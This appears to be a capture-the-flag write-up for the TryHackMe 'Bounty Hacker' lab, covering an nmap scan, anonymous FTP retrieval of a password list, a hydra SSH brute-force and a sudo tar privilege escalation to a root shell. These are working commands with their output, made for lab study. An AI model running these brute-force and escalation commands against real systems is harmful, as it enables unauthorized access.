

Always start with a nmap scan. 
```
# Nmap 7.91 scan initiated Thu Jun 10 16:35:31 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.55.156
Nmap scan report for 10.10.55.156
Host is up (0.18s latency).
Not shown: 968 filtered ports, 29 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 16:36:32 2021 -- 1 IP address (1 host up) scanned in 60.59 seconds

```
We have port 21 FTP which is anonymous login allowed, 22 SSH with ubuntu running and 80 HTTP open. Let's see whats in the website.


Nothing interesting from this webpage. 

# Who wrote the task list?
Let's see what we have in FTP server. 
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ftp 10.10.55.156
Connected to 10.10.55.156.
220 (vsFTPd 3.0.3)
Name (10.10.55.156:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: task.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (6.0500 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (123.4317 kB/s)
ftp> exit
221 Goodbye.
```
In task.txt file :
```plain
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
In locks.txt file we found some lists of words looks like passwords.

Answer is the **lin**.
# What service can you bruteforce with the text file found?

Answer must be '**SSH**' any other service we haven't found.

# What is the users password? 

Let's try to bruteforce the ssh service with **hydra**. Here is my command to hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.55.156:22 | tee scans/hydra-output
```
My hydra output was :
* login: lin 
* password: RedDr4gonSynd1cat3

```plain
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 16:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.55.156:22/
[22][ssh] host: 10.10.55.156   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 16:50:46
```
# user.txt
Let's login into *lin* user.
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ssh lin@10.10.55.156
The authenticity of host '10.10.55.156 (10.10.55.156)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.156' (ECDSA) to the list of known hosts.
lin@10.10.55.156's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{************}
```
# root.txt

Before run any enumeration scripts I like to look into **sudo -l**. Here what I found.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
**tar** is allowed to run as superuser. Let's see our friend *GTFObins* what got here is link to documentation.
https://gtfobins.github.io/gtfobins/tar/



I change this little bit.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I change /bin/sh to /bin/bash to get a good looking shell.
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
[sudo] password for lin: 
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# bash -p
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{**********}
```